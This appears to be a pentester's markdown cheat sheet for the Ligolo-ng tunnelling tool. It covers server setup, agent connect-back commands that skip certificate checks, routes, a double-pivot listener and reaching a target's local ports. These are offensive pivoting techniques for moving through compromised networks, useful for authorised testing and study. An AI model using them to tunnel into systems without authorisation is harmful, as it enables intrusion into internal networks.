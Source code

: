 ## Ligolo
https://docs.ligolo.ng/

### Server side
```bash
# start ligolo server
sudo ligolo-ng -selfcert
# Create interface
ligolo-ng » ifcreate --name "interface_name"
ligolo-ng » iflist
ligolo-ng » ifdel --name "interface_name"
# Route
ligolo-ng » route_add --name "interface_name" --route network_addr/cidr
ligolo-ng » route_list
ligolo-ng » route_del --name "interface_name" --route network_addr/cidr
# Start pivot
ligolo-ng » start --tun "interface_name"
```

### Client side
```bash
agent.exe -connect tun0:11601 -ignore-cert
./agent -connect tun0:11601 -ignore-cert
```

### Double pivot
https://docs.ligolo.ng/sample/double/
After setup the first pivot, we can set a listenner below, the agent will listen on 4444/tcp
```bash
# Listener on agent 1
ligolo-ng » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601
ligolo-ng » listener_list
# After 
ligolo-ng » ifcreate --name "interface_name"
ligolo-ng » route_add --name "interface_name" --route network_addr/cidr
ligolo-ng » start --tun "interface_name"
```

### Forwarding local port
```bash
# After received call back brom target
ligolo-ng » ifcreate --name "local"
ligolo-ng » route_add --name "local" --route 240.0.0.1/32
ligolo-ng » start --tun "local"
```